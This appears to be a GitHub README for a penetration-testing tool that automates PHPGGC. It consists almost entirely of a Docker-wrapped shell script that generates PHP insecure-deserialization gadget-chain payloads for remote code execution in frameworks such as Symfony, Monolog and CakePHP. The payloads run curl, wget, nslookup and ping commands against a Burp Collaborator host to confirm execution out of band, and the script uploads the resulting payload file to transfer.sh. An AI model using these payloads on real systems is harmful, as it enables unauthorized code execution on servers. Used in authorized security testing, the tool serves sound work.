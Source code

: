 # PHP Insecure Deserialization
<img width="1005" alt="1" src="https://github.com/nowak0x01/php-insecure-deserialization/assets/96009982/0a6dd4bb-1716-4c41-ace3-3fd7b263191d"><br><br>

# PHPGGC Auto Generate Gadget Chains Payloads
This script automatically generates all payloads of gadgets available in PHPGGC https://github.com/ambionics/phpggc that lead to Remote code execution (RCE), using Out of Band techniques and phpinfo()<br><br>
Note: If the vector where you think you have insecure deserialization is not detected by the script, it does not mean it is safe, the script is just an automation<br><br>
You can encode the payloads using Burp Intruder rules or directly editing the script through phpggc

```C
sudo docker run --rm debian /bin/bash -c '

Collaborator="bvfczewt07rsrx2gt1k2tourpiv9j07p.oastify.com"

export TERM="xterm"
clear
apt update; apt install git curl php -y
clear
printf "\n\e[1;37m[#]\e[0m Downloading PHPGGC \e[1;37m[#]\e[0m\n"
git clone https://github.com/ambionics/phpggc && cd ./phpggc

printf "\n\e[1;37m[#]\e[0m Building Payloads (slow) \e[1;37m[#]\e[0m\n"

for _gadget in $(./phpggc -l 2>&- | grep "RCE: Command" | awk "{print \$1}" | grep -vE "Symfony\/RCE6|Symfony\/RCE1|Monolog\/RCE4|CakePHP\/RCE1");do

    printf "\n[+] Building Gadget: $_gadget [+]"

    sub=$(printf $_gadget | sed s/"\/"/"_"/g);
    ./phpggc -f $_gadget phpinfo "1" 2>&- >> gadgets.inc

    ./phpggc -f $_gadget system "curl curl_$sub.system.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget exec "curl curl_$sub.exec.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget passthru "curl curl_$sub.passthru.$Collaborator" 2>&- >> gadgets.inc

    ./phpggc -f $_gadget system "wget wget_$sub.system.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget exec "wget wget_$sub.exec.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget passthru "wget wget_$sub.passthru.$Collaborator" 2>&- >> gadgets.inc

    ./phpggc -f $_gadget system "nslookup nslookup_$sub.system.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget exec "nslookup nslookup_$sub.exec.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget passthru "nslookup nslookup_$sub.passthru.$Collaborator" 2>&- >> gadgets.inc

    ./phpggc -f $_gadget system "ping ping_$sub.system.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget exec "ping ping_$sub.exec.$Collaborator" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget passthru "ping ping_$sub.passthru.$Collaborator" 2>&- >> gadgets.inc

done

./phpggc -f Symfony/RCE6 "curl curl_Symfony_RCE6.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Symfony/RCE6 "wget wget_Symfony_RCE6.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Symfony/RCE6 "nslookup nslookup_Symfony_RCE6.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Symfony/RCE6 "ping ping_Symfony_RCE6.$Collaborator" 2>&- >> gadgets.inc

./phpggc -f Symfony/RCE1 "curl curl_Symfony_RCE1.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Symfony/RCE1 "wget wget_Symfony_RCE1.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Symfony/RCE1 "nslookup nslookup_Symfony_RCE1.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Symfony/RCE1 "ping ping_Symfony_RCE1.$Collaborator" 2>&- >> gadgets.inc

./phpggc -f Monolog/RCE4 "curl curl_Monolog_RCE4.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Monolog/RCE4 "wget wget_Monolog_RCE4.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Monolog/RCE4 "nslookup nslookup_Monolog_RCE4.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f Monolog/RCE4 "ping ping_Monolog_RCE4.$Collaborator" 2>&- >> gadgets.inc

./phpggc -f CakePHP/RCE1 "curl curl_CakePHP_RCE1.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f CakePHP/RCE1 "wget wget_CakePHP_RCE1.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f CakePHP/RCE1 "nslookup nslookup_CakePHP_RCE1.$Collaborator" 2>&- >> gadgets.inc
./phpggc -f CakePHP/RCE1 "ping ping_CakePHP_RCE1.$Collaborator" 2>&- >> gadgets.inc


for _gadget in $(./phpggc -l | grep "RCE: PHP Code" | awk "{print \$1}");do

    printf "\n[+] Building Gadget: $_gadget [+]"

    sub=$(printf $_gadget | sed s/"\/"/"_"/g);
    ./phpggc -f $_gadget "phpinfo();" 2>&- >> gadgets.inc

    ./phpggc -f $_gadget "system(\"curl curl_$sub.system.$Collaborator\");" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget "exec(\"curl curl_$sub.exec.$Collaborator\");" 2>&- >> gadgets.inc
    ./phpggc -f $_gadget "passthru(\"curl curl_$sub.passthru.$Collaborator\");" 2>&- >> gadgets.inc
done

file=$(tr -dc 'A-Z0-9' </dev/urandom | head -c 20)
sort -u gadgets.inc > $file
printf "\n\n\e[1;37m[+] The payloads have been uploaded [+]\n"
printf "U can download the file through that link: "; curl -Lsk --upload-file $PWD/$file https://transfer.sh/$file
echo
'
```
